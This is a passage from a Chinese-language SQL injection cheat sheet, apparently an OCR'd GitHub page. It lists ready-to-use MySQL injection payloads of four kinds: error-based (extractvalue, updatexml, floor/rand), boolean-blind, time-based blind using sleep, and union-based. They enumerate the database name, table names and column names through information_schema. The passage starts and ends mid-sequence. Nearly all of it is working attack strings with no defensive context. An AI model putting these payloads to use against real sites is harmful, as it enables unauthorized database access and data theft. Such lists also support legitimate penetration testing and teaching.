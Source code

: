 ```
报错：(select 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.tables group by a)b)

extractvalue(1,concat(0x7e,(select database()),0x7e))

updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

```
布尔：and (select length(database())<10) #判断databace长度
and (select ascii(substr(database(),1,1)) > 100 )#判断每个字母的asicc码
```

```
时间：and if((select length(database()))=8,sleep(5),null)
and if((select ascii(substr(database(),1,1)))>0,sleep(5),null)
```

6.收集表名table_name

from information_schema.tables where table_schema="[数据库名]"

```
普通：union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="[数据库名]"
```

```
报错：(select 1 from (select count(*),concat(0x3a,0x3a,(select group_concat(table_name)from information_schema.tables where table_schema="[数据库名]"),0x3a,0x3a,floor(rand()*2))a from information_schema.tables group by a)b)

extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema="[数据库名]"),0x7e))

updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema="[数据库名]"),0x7e),1)
```

```
布尔：and (select length(table_name) =6 from information_schema.tables where table_schema=database() limit 0,1)
and (select ascii(substr(table_name,1,1)) >0 from information_schema.tables where table_schema=database() limit 0,1)
```

```
时间：and if((select length(table_name) =6 from information_schema.tables where table_schema=database() limit 0,1),sleep(5),null)
and if((select ascii(substr(table_name,1,1)) >0 from information_schema.tables where table_schema=database() limit 0,1),sleep(5),null)
```

7.收集栏目column_name

from information_schema.columns where table_schema="[数据库名]" and table_name="[表名]"

```
普通：union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="[数据库名]" and table_name="[表名]"
```
